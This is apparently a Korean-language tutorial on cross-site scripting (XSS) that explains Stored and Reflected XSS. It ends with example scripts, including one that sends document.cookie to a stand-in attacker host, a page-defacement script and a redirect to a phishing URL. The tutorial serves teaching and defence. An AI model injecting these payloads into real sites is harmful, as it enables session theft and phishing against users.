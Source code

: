 ## XSS

클라이언트 사이드 취약점 중 하나로, 공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에 해당 스크립트를 실행할 수 있습니다. 공격자는 해당 취약점을 통해 특정 계정의 세션 정보를 탈취하고 해당 계정으로 임의 기능을 수행할 수 있습니다.
대표적으로 Stored XSS와 Reflected XSS가 있습니다.

<img src="https://velog.velcdn.com/images/silvergun8291/post/3f2faccd-2571-46bf-a3ca-1eba7980daae/image.png">

<br>

## Stored XSS

Stored XSS는 서버의 데이터베이스 또는 파일 등의 형태로 저장된 악성 스크립트를 조회할 때 발생하는 XSS입니다. 대표적으로 게시물과 댓글에 악성 스크립트를 포함해 업로드하는 방식이 있습니다.

<br>

## Reflected XSS

Reflected XSS는 서버가 악성 스크립트가 담긴 요청을 출력할 때 발생합니다. 대표적으로 검색창에서 스크립트를 포함해 검색하는 방식이 있습니다.
Reflected XSS는 Stored XSS와는 다르게 URL과 같은 이용자의 요청에 의해 발생하기 때문에, 타 이용자가 악성 스크립트가 포함된 링크에 접속하도록 유도해야 합니다.

<br>

## XSS 스크립트의 예시

#### 쿠키 및 세션 탈취 공격 코드

```javascript
<script>
// "hello" 문자열 alert 실행.
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

#

#### 페이지 변조 공격 코드

```javascript
<script>
// 이용자의 페이지 정보에 접근.
document;
// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

#

#### 위치 이동 공격 코드

```javascript
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```
